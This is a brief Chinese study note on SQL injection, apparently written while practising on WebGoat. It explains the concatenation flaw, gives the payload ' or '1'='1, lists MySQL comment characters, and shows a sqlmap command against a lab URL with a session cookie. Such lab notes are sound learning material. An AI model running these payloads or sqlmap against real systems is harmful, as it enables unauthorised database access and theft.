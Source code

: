 # sql注入
SQL注入是一种注入攻击,可以执行恶意SQL语句
sql 注入主要是由于sql拼接导致的漏洞.例如

`"select * from users where name = '" + userName + "'";`

将userName设为 `' or '1'='1` 可拼接成 `select * from users where name = '' or '1'='1'`

## 其他规则
mysql注释符 `/* */` `"--  ..."` `#..`
union join等方式也可导致注入

# sqlmap 盲注工具
安装sqlmap略

`python sqlmap.py -u 'http://10.12.25.110:8001/WebGoat/SqlInjection/attack6a' --cookie="JSESSIONID=458C562290DE59252F280FB00D209FBE --method="post"` 
